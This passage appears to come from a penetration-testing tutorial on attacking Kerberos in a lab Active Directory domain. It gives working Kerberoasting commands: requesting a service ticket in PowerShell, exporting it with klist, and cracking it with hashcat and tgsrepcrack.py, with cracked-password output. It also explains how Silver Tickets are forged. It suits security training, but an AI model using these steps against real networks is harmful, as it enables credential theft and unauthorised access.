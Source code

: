 Then after that we can crack the ticket offline and retrieving the password of the service.

```bash
root@kali: hashcat --help |  grep  "TGS"

 13100 | Kerberos 5, etype 23, TGS-REP | Network Protocols
 19600 | Kerberos 5, etype 17, TGS-REP | Network Protocols
 19700 | Kerberos 5, etype 18, TGS-REP | Network Protocols
root@kali: hashcat -m 13100 TGS_Ticket.txt
```

**Anther way**

We can call the KerberosRequestorSecurityToken constructor by specifying the SPN with the - ArgumentList option as shown in Listing.
`Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SQLSERVICE/Marvel.local'`

```c
PS C:\Users\offsec.CORP> klist
Current LogonId is 0:0x3dedf
Cached Tickets:  (4)
#1> Client: fcastle @ Mrvel.local
Server: SQLSERVICE/Marvel.local @ Marvel.local
KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
Ticket Flags 0x40a50000  -> forwardable renewable pre_authent ok_as_delegate name_c
ano
Start Time:  2/12/2018  10:18:31  (local)
End Time:  2/12/2018  20:17:53  (local)
Renew Time:  2/19/2018  10:17:53  (local)
Session Key Type: RSADSI RC4-HMAC(NT)
Cache Flags:  0
Kdc Called: PDC.Marvel.local
PS C:\Users\offsec.CORP> klist /export
```

If we are able to request the ticket and decrypt it using brute force or guessing (in a technique known as **Kerberoasting**), we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do not need administrative privileges for this attack.

```bash
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Fcastle@SQLSERVICE~Marvel.local.kirbi

found password for ticket 0: MYpassword123 File: 1-40a50000-Fcastle@SQLSERVICE~Marvel.local.kirbi
All tickets cracked!
```


### **Silver Tickets**

Since we have divided the kerberos Authentication into two parts. the first one is AS-REQ, AS-REP and TGS-REQ, TGS-REP. The 2nd part is client - service which is the more interesting part for the silver ticket. To authenticate to the service, the client sends a copy of the **TGS Ticket (Service Ticket)** which is encrypted using the service Secret key and the User Authenticator message which is encrypted using the Service Session Key. So the actual service authentication part 2, and all it's needed is the service secret key. if you have a service secret key, you may just create a random session key, add it to your own Service ticket, encrypt it with the service's secret, and send it to the service while authenticating. As all the service will do is just trying to decrypt that ticket with its own key, which will work because it's the same key you used while encrypting the ticket, then use the session key (which you generated) to decrypt the Authenticator Message.
